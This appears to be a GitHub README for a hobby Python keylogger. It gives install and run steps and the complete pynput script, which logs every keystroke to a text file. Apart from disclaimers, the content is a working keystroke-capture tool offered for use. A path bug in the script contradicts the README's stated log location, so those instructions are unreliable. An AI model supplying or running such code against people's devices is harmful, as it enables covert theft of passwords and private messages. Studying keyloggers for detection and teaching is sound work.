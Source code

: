 # Keylogger

## Overview
A keylogger is a tool designed to monitor and record keystrokes on a computer or mobile device. This project captures and stores keyboard inputs for analysis and monitoring purposes. It can be used for ethical and authorized applications, such as monitoring personal devices or educational purposes. Misuse of this tool is strictly prohibited and can have serious legal consequences.

## Features
- **Keystroke Recording:** Logs all keystrokes entered on the device.
- **Log File Storage:** Stores recorded keystrokes in a log file named `keylogger.txt`.
- **Simple Implementation:** Uses the `pynput` library for handling keyboard events.

## Prerequisites
- **Programming Language:** Python 3.x
- **Libraries:** Ensure the following libraries are installed:
  - `pynput` (for keyboard event handling)
  - `logging` (for creating and managing log files)

To install the required Python libraries, use:
```bash
pip install pynput
```

## Installation
1. Clone the repository or copy the keylogger script to your local machine.
2. Save the script in the desired directory. For example:
   ```
   C:\Users\reeha\OneDrive\Desktop\Reeha\Cyber projects\Keylogger
   ```

## Usage
1. **Setup Log Directory:**
   - Ensure the `log_dir` variable in the script points to the folder where the keylogger script is saved. For example:
     ```python
     log_dir = r"C:\Users\reeha\OneDrive\Desktop\Reeha\Cyber projects\Keylogger"
     ```
2. **Run the Script:**
   - Execute the script using Python:
     ```bash
     python keylogger.py
     ```
3. **Access Logs:**
   - After running the script, the keystrokes will be logged in a file named `keylogger.txt` in the specified directory.
4. **Stopping the Keylogger:**
   - Stop the script manually by interrupting the Python process (e.g., using `Ctrl + C` in the terminal).

## Script Code
Here is the provided keylogger script for reference:
```python
import pynput
from pynput.keyboard import Key, Listener
import logging

log_dir = r"C:\Users\reeha\OneDrive\Desktop\Reeha\Cyber projects\Keylogger"
logging.basicConfig(filename=(log_dir + "keylogger.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

## Legal Disclaimer
This keylogger is provided for educational and ethical purposes only. You are responsible for ensuring compliance with all applicable laws and regulations when using this tool. Unauthorized use of keyloggers is illegal and may result in severe penalties, including imprisonment.

## License
This project is licensed under the MIT License. See the `LICENSE` file for more details.

## Support
For issues or questions, please contact the project maintainer or open an issue in the repository.

